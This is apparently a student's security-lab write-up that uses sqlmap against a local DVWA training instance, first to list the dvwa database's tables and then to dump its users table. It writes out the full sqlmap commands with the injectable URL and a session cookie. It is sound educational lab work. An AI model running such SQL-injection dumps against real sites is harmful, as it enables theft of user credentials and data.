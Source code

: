 #### 1. Get tables of database.

In previous question, we know that DVWA has 2 databases: dvwa and information_schema

dvwa is the provided database for user like us to inspect the vulnerabilities, so in this question I will inspect its tables.

Here's the commamd:

```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=23tquf80cnqkgtfqutueprkto4" --batch -D dvwa --tables
```

Explain options:
* -D dvwa: Indicates target database.
* --tables: Reveals tables of target database.

Here's the result:

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/a0d8cf04ed6862d748997cfd2f2d70948e670b23/images/task1/dvwa_tables.jpg"><br>

Database dvwa has 2 tables:
* guestbook
* users

#### 2. Get information of users table.

As we acknowledged in previous sub-task, dvwa has a users table which likely contains information about users.

To get data of that table, here's the command I use:

```
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=23tquf80cnqkgtfqutueprkto4" --batch -D dvwa -T users --dump
```

Explain options:
* -D dvwa -T users: Indicates target table of specific database. In this case, it refers to the users table of dvwa.
* --dump: Extracts information of indicated table.

Here's the result:

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/76dddbcaadc2e6918fa3c783eb5349ceb6a4ad33/images/task1/users_table.jpg"><br>
